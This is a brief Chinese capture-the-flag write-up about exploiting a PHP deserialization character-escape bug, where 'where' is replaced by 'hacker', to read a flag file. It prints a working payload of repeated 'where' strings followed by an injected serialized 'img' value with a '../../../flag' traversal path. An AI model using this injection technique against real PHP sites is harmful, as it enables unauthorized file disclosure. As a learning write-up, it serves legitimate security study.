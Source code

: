 ![alt text](assets/writeup/image-5.png)


认为where替换为hacker时会有字符逃逸漏洞

由报错路径可知，`index.php`位于`/var/www/html`，即flag相对路径为`../../../flag`。

可以利用输出图片的代码间接输出flag：`$img = base64_encode(file_get_contents($q['img']));`。只需要将数组中的img变量替换为flag的相对路径


编写反序列化php，将img变量替换为flag路径`s:3:"img";s:13:"../../../flag";`。使用字符逃逸漏洞，在前面添加34个where字符

```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";s:3:"img";s:13:"../../../flag";}
```

运行无报错，证明img变量设置正确

![alt text](assets/writeup/image-6.png)
